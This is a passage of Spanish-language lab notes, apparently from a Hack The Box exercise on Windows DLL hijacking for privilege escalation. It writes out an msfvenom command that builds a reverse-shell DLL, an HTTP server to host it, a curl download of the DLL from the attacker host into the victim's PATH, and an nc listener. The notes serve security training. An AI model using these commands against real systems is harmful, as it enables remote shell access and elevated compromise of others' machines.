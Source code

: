 
## 11. Generar la DLL maliciosa — `msfvenom`

### Comando

```
CyberWolfSec@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

* **`msfvenom`:** Herramienta para generar payloads de Metasploit.
* **Opciones:**

  * `-p windows/shell_reverse_tcp` — payload que abre una shell reversa en Windows.
  * `LHOST=10.10.14.3` — dirección IP del host atacante donde el payload se conectará (tun0 en el ejemplo).
  * `LPORT=8443` — puerto remoto en el host atacante.
  * `-f dll` — formato de salida: un archivo DLL.
  * `> srrstr.dll` — redirección para guardar la salida en un archivo llamado `srrstr.dll`.
* **Salida informativa:** El comando informa la arquitectura escogida (x86) y el tamaño final del DLL.

---

## 12. Servir el DLL por HTTP — `python3 -m http.server`

```
CyberWolfSec@htb[/htb]$ sudo python3 -m http.server 8080
```

* **Qué hace:** Lanza un servidor HTTP simple en el puerto `8080` para servir archivos desde el directorio actual.
* **Uso:** Facilita la transferencia del archivo `srrstr.dll` al host objetivo usando `curl` o `Invoke-WebRequest`.

---

## 13. Descargar el DLL en la víctima — `curl` con `-O` y ruta destino

```
PS C:\htb> curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

* **`curl URL -O "path"`:** En PowerShell `curl` está mapeado a `Invoke-WebRequest`; el ejemplo descarga el archivo desde la dirección atacante y lo guarda directamente en la ruta de `WindowsApps` dentro del perfil de `sarah`.
* **Resultado buscado:** Poner `srrstr.dll` en un directorio en `PATH` y que sea legible por el futuro proceso auto-elevado.

---

## 14. Preparar el listener — `nc -lvnp 8443`

